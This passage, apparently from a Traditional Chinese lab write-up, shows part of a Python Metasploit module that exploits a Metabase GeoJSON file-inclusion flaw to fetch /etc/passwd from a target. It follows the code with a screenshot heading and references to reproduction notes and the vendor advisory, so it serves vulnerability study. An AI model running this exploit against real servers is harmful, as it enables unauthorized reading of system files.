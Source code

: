 
    def get_file(base_url, query):
        res = requests.get(f'{base_url}{query}', timeout = 3)
        if res and res.status_code == 200:
            return True
        else:
            return False


    def run(args):
        try:
            # dependency check
            if dependencies_missing:
                module.log('Module dependency (requests) is missing, cannot continue', level='error')
                return

            # check
            base_url = find_base_url(args)
            if check_valid_url(base_url):
                module.log('Target is valid', level='good')
            else:
                module.log('It seems that this is not a website provided by metabase.', level='warning')
                return

            query = 'api/geojson?url=file:///etc/passwd'
            if get_file(base_url, query):
                module.log('Successfully get /etc/passwd file', level='good')
            else:
                module.log('Failed to get /etc/passwd file', level='error')

        except Exception as e:
            module.log(str(e), level='error')


    if __name__ == '__main__':
        module.run(metadata, run)

    ```
    
## 在Metasploit中使用testcase, 對靶機掃描/利用成功之截圖
![](https://i.imgur.com/FgFow1c.png)


## 參考資料
https://ithelp.ithome.com.tw/articles/10241555

https://medium.com/hijackarno/lfi-rfi%E6%89%8B%E6%B3%95%E4%BB%8B%E7%B4%B9-b9ba8053685

https://www.gushiciku.cn/pl/arMh/zh-tw

https://blog.51cto.com/libai/4935256

https://nosec.org/home/detail/4909.html
>這裡有用vulfocus復現漏洞

https://github.com/metabase/metabase/security/advisories/GHSA-w73v-6p7p-fpfr
>官方建議